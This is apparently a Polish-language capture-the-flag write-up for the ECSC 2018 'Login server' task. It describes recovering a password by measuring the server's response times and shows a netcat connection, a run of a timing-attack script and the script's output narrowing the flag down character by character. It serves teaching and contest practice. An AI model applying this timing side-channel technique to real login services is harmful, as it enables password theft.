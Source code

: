 # Login server (misc, 300 pkt)
Arkadiusz Kozdra

# Treść
> ~There is a mysterious service that I have no idea how to hack.~
>
> *Update 2018-06-19 12:30:*
>
> There is a mysterious service that I have no **time** to hack.
>
> We have also changed the password. Now it's the flag.
>
> ```
> nc ecsc18.hack.cert.pl 10013
> ```
>
> Format flagi: `ecsc{litery_cyfry_i_znaki_specjalne}`.

# Rozwiązanie
Uwagę zwraca pogrubione słowo **time**. Po połączeniu z serwerem dostajemy pytanie o hasło:
```
$ nc ecsc18.hack.cert.pl 10013
AWSUM Login Server(tm)
Please enter password: 
```

Podajemy dowolne losowe hasło, ale serwer niestety nas nigdzie nie wpuszcza:
```
Invalid password!
```

Interesujące jest to, że dość długo czekamy na odpowiedź serwera (około 100ms).
Przy wpisaniu hasła `ecsc{litery_cyfry_i_znaki_specjalne}` dostajemy odpowiedź
po znacznie dłuższym czasie (około 500ms). Rozwiązaniem powinien być atak timingowy.

Niestety trudno jest precyzyjnie dobrać parametry przycięcia wyników, pełna
automatyzacja jest zbyt czasochłonna do napisania, wystarczył zatem skrypt [login-server.py](login-server.py).
Przykładowe wywołanie programu:


```py
$ python3 login-server.py PWD='ecsc{timing_attacks_are_' ALLOWED='abcdefghijklmnopqrstuvwxyz1234567890_'
[+] Opening connection to ecsc18.hack.cert.pl on port 10013: Done
Reference: 2.258123270670573
0.54 3.857176733016968
0.04 2.346260499954224
0.95 5.82721848487854
0.04 2.3450202465057375
0.04 2.3490178108215334
0.04 2.344088983535767
0.04 2.344903898239136
0.04 2.342765283584595
0.54 3.861946535110474
0.04 2.3408860683441164

Average:
0.14010958663559675
probably the right prefix!
a 0.9975909953445186
b 0.9986598041061736
c 1.0004796196887256
d 1.0003714452851078
e 1.0167878304531466
f 1.0042942575091551
g 0.9995609615646833
h 0.9990838782042958
i 1.000253886466639
j 0.9993935638943718
k 1.0226239219590032
l 1.0000010145313354
m 0.999816496644742
n 1.0321271637924319
o 0.9990284594301094
p 0.9984847974508481
q 0.9997128876321326
r 0.9990547104284082
s 1.0001665099553931
t 0.9994113181927383
u 1.0019678103410774
v 0.9991953498347531
w 1.0006504414022934
x 0.9994459390745527
y 0.9991999152257617
z 1.0003231282302678
1 1.0000726658068853
2 1.000359144092668
3 1.0000029167775888
4 0.9991844436228996
5 1.0000154716028622
6 1.000645749194868
7 0.9986114870513337
8 0.9989426047158664
9 1.0000068480865127
0 0.998975703800678
_ 1.0049576341859725
---
b'ecsc{timing_attacks_are_f' 0.6293675422668457
b'ecsc{timing_attacks_are_n' 0.6468097686767578
b'ecsc{timing_attacks_are__' 0.629783264795939
b'ecsc{timing_attacks_are_k' 0.6408543109893798
b'ecsc{timing_attacks_are_e' 0.6371969699859619
```

Tak dochodzimy do flagi: `ecsc{timing_attacks_are_nasty_guys}`.


